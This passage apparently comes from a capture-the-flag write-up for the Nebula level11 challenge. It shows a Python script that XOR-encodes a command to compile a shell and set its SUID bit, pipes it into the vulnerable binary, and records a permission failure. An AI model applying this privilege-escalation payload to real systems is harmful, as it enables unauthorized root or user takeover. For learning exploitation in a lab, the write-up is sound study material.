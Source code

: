 Next, we write a script that encodes the command we want to run.

```python
def encode(command, key):
    ret = []
    for i in command:
        enc = (ord(i) ^ key) & 0xff
        ret.append(chr(enc))
        key = (key - ord(i)) & 0xff

    return "".join(ret)


def main():
    command = "gcc -o /home/flag11/shell /tmp/shell.c; chmod +s /home/flag11/shell\x00"
    length = 1024
    key = length & 0xff

    cmd = encode(command, key)
    print "Content-Length: " + str(length) + "\n" + cmd + "A"*(length - len(cmd))


if __name__ == "__main__":
    main()
```

We attempt to run out exploit. We have to change the `TEMP` environmental
variable to point to a location where we can read and write to files.

```shell
level11@nebula:~$ export TEMP=/tmp
level11@nebula:~$ python level11.py | /home/flag11/flag11
blue = 1024, length = 1024, pink = 1024
/usr/bin/ld: cannot open output file /home/flag11/shell: Permission denied
collect2: ld returned 1 exit status
chmod: changing permissions of `/home/flag11': Operation not permitted
```

However, we encounter a permissions error when we try to write to
`/home/flag11/shell`. This is odd because our binary is a SUID binary.

```shell
level11@nebula:~$ ls -lah /home/flag11
total 17K
drwxr-x--- 1 flag11 level11   40 2012-08-20 18:58 .
drwxr-xr-x 1 root   root     120 2012-08-27 07:18 ..
-rw-r--r-- 1 flag11 flag11   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag11 flag11  3.3K 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag11 level11  12K 2012-08-19 20:55 flag11
-rw-r--r-- 1 flag11 flag11   675 2011-05-18 02:54 .profile
drwxr-xr-x 2 flag11 flag11     3 2012-08-27 07:15 .ssh
```

Running the binary under `strace`, we see an explicit call to `setuid32` and
`setgid32` that drops privileges back to the level11 user.
